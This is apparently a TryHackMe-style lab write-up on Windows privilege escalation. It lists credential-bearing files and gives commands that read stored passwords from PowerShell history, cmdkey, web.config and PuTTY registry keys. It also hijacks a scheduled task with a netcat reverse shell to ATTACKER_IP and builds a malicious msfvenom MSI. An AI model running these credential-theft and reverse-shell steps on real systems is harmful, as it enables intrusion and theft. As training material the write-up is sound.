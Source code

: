 # Windows

You may find some credentials about domain and password:
•	C:\Unattend.xml
•	C:\Windows\Panther\Unattend.xml
•	C:\Windows\Panther\Unattend\Unattend.xml
•	C:\Windows\system32\sysprep.inf
•	C:\Windows\system32\sysprep\sysprep.xml

Powershell History
Whenever a user runs a command using Powershell, it gets stored into a file that keeps a memory of past commands. This is useful for repeating commands you have used before quickly. If a user runs a command that includes a password directly as part of the Powershell command line, it can later be retrieved by using the following command from a cmd.exe prompt:
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
Note: The command above will only work from cmd.exe, as Powershell won't recognize %userprofile% as an environment variable. To read the file from Powershell, you'd have to replace %userprofile% with $Env:userprofile. 


Saved Windows Credentials
Windows allows us to use other users' credentials. This function also gives the option to save these credentials on the system. The command below will list saved credentials:
cmdkey /list
While you can't see the actual passwords, if you notice any credentials worth trying, you can use them with the runas command and the /savecred option, as seen below.
runas /savecred /user:admin cmd.exe


IIS Configuration
Internet Information Services (IIS) is the default web server on Windows installations. The configuration of websites on IIS is stored in a file called web.config and can store passwords for databases or configured authentication mechanisms. Depending on the installed version of IIS, we can find web.config in one of the following locations:
•	C:\inetpub\wwwroot\web.config
•	C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
Here is a quick way to find database connection strings on the file:
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString


Retrieve Credentials from Software: PuTTY
To retrieve the stored proxy credentials, you can search under the following registry key for ProxyPassword with the following command:
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s


Scheduled Tasks
Looking into scheduled tasks on the target system, you may see a scheduled task that either lost its binary or it's using a binary you can modify.
Scheduled tasks can be listed from the command line using the schtasks command without any options. To retrieve detailed information about any of the services, you can use a command like the following one:
Command Prompt 
C:\> schtasks /query /tn vulntask /fo list /v
Folder: \
HostName:                             THM-PC1
TaskName:                             \vulntask
Task To Run:                          C:\tasks\schtask.bat
Run As User:                          taskusr1
        
You will get lots of information about the task, but what matters for us is the "Task to Run" parameter which indicates what gets executed by the scheduled task, and the "Run As User" parameter, which shows the user that will be used to execute the task.
If our current user can modify or overwrite the "Task to Run" executable, we can control what gets executed by the taskusr1 user, resulting in a simple privilege escalation. To check the file permissions on the executable, we use icacls:
Command Prompt 
C:\> icacls c:\tasks\schtask.bat
c:\tasks\schtask.bat NT AUTHORITY\SYSTEM:(I)(F)
                    BUILTIN\Administrators:(I)(F)
                    BUILTIN\Users:(I)(F)
        
As can be seen in the result, the BUILTIN\Users group has full access (F) over the task's binary. This means we can modify the .bat file and insert any payload we like. For your convenience, nc64.exe can be found on C:\tools. Let's change the bat file to spawn a reverse shell:
Command Prompt 
C:\> echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat
        
We then start a listener on the attacker machine on the same port we indicated on our reverse shell:
nc -lvp 4444
The next time the scheduled task runs, you should receive the reverse shell with taskusr1 privileges. While you probably wouldn't be able to start the task in a real scenario and would have to wait for the scheduled task to trigger, we have provided your user with permissions to start the task manually to save you some time. We can run the task with the following command:
Command Prompt 
C:\> schtasks /run /tn vulntask
        
And you will receive the reverse shell with taskusr1 privileges as expected:
Kali Linux 
user@attackerpc$ nc -lvp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.175.90 50649
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
wprivesc1\taskusr1


AlwaysInstallElevated
Windows installer files (also known as .msi files) are used to install applications on the system. They usually run with the privilege level of the user that starts it. However, these can be configured to run with higher privileges from any user account (even unprivileged ones). This could potentially allow us to generate a malicious MSI file that would run with admin privileges.
Note: The AlwaysInstallElevated method won't work on this room's machine and it's included as information only.
This method requires two registry values to be set. You can query these from the command line using the commands below.
Command Prompt 
C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
        
To be able to exploit this vulnerability, both should be set. Otherwise, exploitation will not be possible. If these are set, you can generate a malicious .msi file using msfvenom, as seen below:
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_MACHINE_IP LPORT=LOCAL_PORT -f msi -o malicious.msi
As this is a reverse shell, you should also run the Metasploit Handler module configured accordingly. Once you have transferred the file you have created, you can run the installer with the command below and receive the reverse shell:
Command Prompt 
C:\> msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi


